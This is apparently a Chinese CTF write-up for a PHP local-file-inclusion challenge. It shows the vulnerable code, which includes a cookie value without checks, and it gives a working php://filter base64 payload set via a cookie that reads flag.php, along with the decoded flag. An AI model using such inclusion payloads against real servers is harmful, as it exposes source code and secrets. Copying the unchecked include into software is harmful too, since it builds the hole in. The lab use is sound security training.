

# fileinclude

题目


Notice: Undefined index: language in /var/www/html/index.php on line 9
Please choose the language you want : English or Chinese

Hi,EveryOne,The flag is in flag.php

---

查看源码

```html
<html>
<head><meta http-equiv="Content-Type" content="text/html; charset=utf-8" /></head>

<br />
<b>Notice</b>:  Undefined index: language in <b>/var/www/html/index.php</b> on line <b>9</b><br />
Please choose the language you want : English or Chinese
<h1>Hi,EveryOne,The flag is in flag.php</h1><html>
<head><meta http-equiv="Content-Type" content="text/html; charset=utf-8" /></head>

<?php
if( !ini_get('display_errors') ) {
  ini_set('display_errors', 'On');
  }
error_reporting(E_ALL);
$lan = $_COOKIE['language'];    
if(!$lan)
{
	@setcookie("language","english");
	@include("english.php");
}
else
{
	@include($lan.".php");
}
$x=file_get_contents('index.php');
echo $x;
?>
</html></html>
```
关键行 
```html
<b>Notice</b>:  Undefined index: language in <b>/var/www/html/index.php</b> on line <b>9</b><br />

$lan = $_COOKIE['language'];  
```
* lan 需要在cookie中的内容language 会被传到变量$lan
* 如果 变量lan 为 0 则 set cookie为 "language","english" 
* 如果为 非0，则执行
```
@include($lan.".php");
```
* 结合题目 flag 在 flag.php中
* 所以只需要将 lan 值 赋值为 “/var/www/html/flag”

---
### Brupsuit



```
cookies
  Name：language
  Value：php://filter/read=convert.base64-encode/resource=/var/www/html/flag
```
* php://filter/read=执行文件读取功能
* convert.base64-encode
* forword之后 得到 字符串 base64 解码后得到flag

```
PD9waHANCiRmbGFnPSJjeWJlcnBlYWNlezlhOTJjYjE2YzNjM2NlMzY1M2E1ODYwYmIzYjE1NjAzfSI7DQo/Pg==

<?php
$flag="cyberpeace{9a92cb16c3c3ce3653a5860bb3b15603}";
?>
```